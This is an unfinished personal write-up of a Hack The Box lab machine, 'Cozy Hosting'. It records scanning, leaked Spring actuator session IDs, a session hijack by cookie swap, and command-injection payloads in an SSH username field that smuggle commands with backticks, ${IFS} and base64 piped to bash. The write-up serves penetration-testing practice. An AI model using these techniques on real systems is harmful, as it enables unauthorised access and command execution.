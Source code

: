 # Cozy Hosting

> IP: [10.10.11.230]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.10.11.230 -oN init_scan
      1. Port 22 -> ssh
      2. Port 80 -> http
         1. http-title: Did not follow redirect to http://cozyhosting.htb
         2. Need to add this to our /etc/hosts file
3. HTTP
   1. Navigate to website and inspect source code
   2. LOGIN PAGE
      1. UN: admin
      2. PW: password
      3. In the url we see /login?error
   3. XSS
      1. Test the login form for xss
         1. PAYLOAD: <script>alert(1);</script>
         2. Nothing
   4. COOKIE
      1. We also see a JSESSION cookie and a value
         1. Couldn't crack this
   5. GOBUSTER
      1. > gobuster dir -x php,txt,html -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
         1. index
         2. login
         3. admin
         4. logout
         5. error
   6. DIRSEARCH
      1. > dirsearch -u cozyhosting.htb
         1. /actuator

            ```json
                {"_links":{"self":{"href":"http://localhost:8080/actuator","templated":false},"sessions":{"href":"http://localhost:8080/actuator/sessions","templated":false},"beans":{"href":"http://localhost:8080/actuator/beans","templated":false},"health":{"href":"http://localhost:8080/actuator/health","templated":false},"health-path":{"href":"http://localhost:8080/actuator/health/{*path}","templated":true},"env":{"href":"http://localhost:8080/actuator/env","templated":false},"env-toMatch":{"href":"http://localhost:8080/actuator/env/{toMatch}","templated":true},"mappings":{"href":"http://localhost:8080/actuator/mappings","templated":false}}}
            ```

         2. /actuator/env
         3. /actuator/health
         4. /actuator/sessions

            ```json
                {
                    "57C683F9031DDF4AE4065F40FCE64B2B":"UNAUTHORIZED",
                    "103649C33456367C6B155F698492F80C":"UNAUTHORIZED",
                    "A6D2D52E081B6F28DE8609C145EA8019":"UNAUTHORIZED",
                    "CC19EC16BD5CD02F1EA22D5638FAF803":"UNAUTHORIZED",
                    "BC3017EB68D249F75677E524F3CC00D5":"kanderson",
                    "F26F459B923D1C512526E9B6B4F97C30":"UNAUTHORIZED",
                    "DF4AE9608E4C2C93725F68EAC4F7D5E1":"UNAUTHORIZED"}
            ```

            1. Maybe these sessions refer to PHP Sessions like interms of our cookie
4. BURPSUITE
   1. Proxy -> Intercept -> "Cookie: JSESSIONID=BC3017EB68D249F75677E524F3CC00D5"
   2. Success! We are now logged into the admin dashboard
      1. In here we see a HOSTNAME & USERNAME input field
   3. ADMIN DASHBOARD
      1. HOSTNAME: 127.0.0.1
      2. USERNMAE: (I testetd several different names, but if I left it blank we got this response)
         1. REQUEST: We can see the request being sent is to /executessh
         2. RESPONSE:

        ```text
            usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]
        ```

        1. So it looks like it is running ssh commands
   4. TRIAL AND ERROR
      1. For the hostname lets try and use our attack machine to see if it pings back to us
         1. HOSTNAME: MY_IP_ADDR
            1. INVALID-HOSTNAME
      2. For the hostname lets try the victim machine IP address
         1. HOSTNAME: 10.10.11.230
         2. USERNAME: [COMMAND-HERE]
            1. Commands tested:
               1. test; `whoami`
                  1. RSEPONSE: "error=Username%20can%27t%20contain%20whitespaces!"
                  2. So can't have whitespaces
               2. test;`whoami`
                  1. RESPONSE: "ssh: Could not resolve hostname test: Temporary failure in name resolution/bin/bash: line 1: app@10.10.11.230: command not found"
                  2. So couldn't run the command

## HELP NEEDED CREDIT @Aniket Das for his help / writeup hints

1. So I was definitely on the right track, however we needed to go a step further by base64 encoding our payload and using "${IFS}" for whitespace
2. BASE64 TEST
   1. > echo "whoami" | base64
      1. RESPONSE: d2hvYW1pCg==
3. PAYLOAD
   1. HOST: 10.10.11.230
   2. USER: test;`d2hvYW1pCg==`
      1. Did not work
4. PAYLAOD 2.0
   1. HOST: 10.10.11.230
   2. USER: echo${IFS}`d2hvYW1pCg==|base64${IFS}-d|bash`

## QUESTIONS

1. User flag
   1. ``
2. Root flag
   1. ``
